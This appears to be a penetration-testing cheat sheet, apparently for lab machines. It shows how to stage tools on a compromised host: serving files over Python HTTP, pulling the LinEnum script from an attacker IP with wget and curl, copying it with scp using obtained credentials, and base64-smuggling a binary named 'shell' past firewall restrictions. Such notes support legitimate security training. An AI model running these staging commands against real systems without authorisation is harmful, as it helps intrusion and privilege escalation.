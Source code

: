 # Transferring Files

## wget or cURL

Start our HTTP server in the directory of the files we want to upload:

```bash
$ cd /tmp
$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/)
```

On the remote machine, download our file with `wget`:

```bash
$ wget http://10.10.14.1:8000/linenum.sh

Saving to: 'linenum.sh'

linenum.sh 100%[==============================================>] 144.86K  --.-KB/s    in 0.02s

2021-02-08 18:09:19 (8.16 MB/s) - 'linenum.sh' saved [14337/14337]
```

Or with `cURL`:

```bash
$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

100  144k  100  144k    0     0  176k      0 --:--:-- --:--:-- --:--:-- 176k
```

## SCP

Another method to transfer files would be using scp, granted we have obtained ssh user credentials on the remote host. We can do so as follows:

```bash
$ scp linenum.sh user@remotehost:/tmp/linenum.sh

user@remotehost's password: *********
linenum.sh
```

## base64

In some cases, we may not be able to transfer the file. For example, the remote host may have firewall protections that prevent us from downloading a file from our machine. In this type of situation, we can use a simple trick to base64 encode the file into base64 format, and then we can paste the base64 string on the remote server and decode it:

```bash
$ base64 shell -w 0

f0VMRgIBAQAAAAAAAAAAAAIAPgAB...lIuy9iaW4vc2gAU0iJ51JXSInmDwU
```

We can then paste the encoded data and decode it on the remote machine:

```bash
$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgAB...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```

## Validating Files

To validate the format of a file, we can run the `file` command on it and/or check the hash:

```bash
$ file shell
shell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header

$ md5sum shell
321de1d7e7c3735838890a72c9ae7d1d shell
```

Compare the `md5sum` output with the equivalent output on the host machine and they should match if the file was transferred successfully.
